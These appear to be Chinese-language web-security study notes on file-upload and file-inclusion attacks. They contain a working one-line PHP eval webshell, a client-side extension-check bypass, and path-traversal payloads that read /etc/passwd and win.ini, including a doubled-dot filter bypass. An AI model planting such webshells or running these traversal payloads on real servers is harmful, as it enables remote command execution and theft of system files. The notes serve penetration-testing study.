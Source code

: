关闭js插件绕过文件后缀校验，上传.php文件

`<?php phpinfo();?>`

### MIME类型校验

Content_Type——http包

$_FILES [' '] ['type']——php

**phpinfo 可以输出php的环境信息，其中document_root为web网站目录的绝对路径**

## 实施利用

- 一句话木马文件+hackbar插件实现webshell命令操作

  ```
  <?php @eval($_POST['x']);?>
  
    //eval把（）中的内容当作PHP脚本去解析并执行
  
    //$_POST[]是用户提交的数据
  
    //@是关闭错误输出
   
  ```

  ![image-20230614162431471](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230614162431471.png)

- 一句话木马文件+webshell工具

  蚁剑、菜刀、冰蝎

  ![image-20230614163414812](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20230614163414812.png)

# 文件包含

1.考试类型

picshell.php

2.考察

**(对关键字双写或大小写绕过)**

## 文件包含过滤手法

- /etc/passwd    C:\Windows\win.ini
- file=../../../../../../etc/passwd
- file=upload/2220230829135924.jpg         

​         

- file=picshell.jpg                          //直接包含

- file=....//....//picshell.jpg              //目录穿越
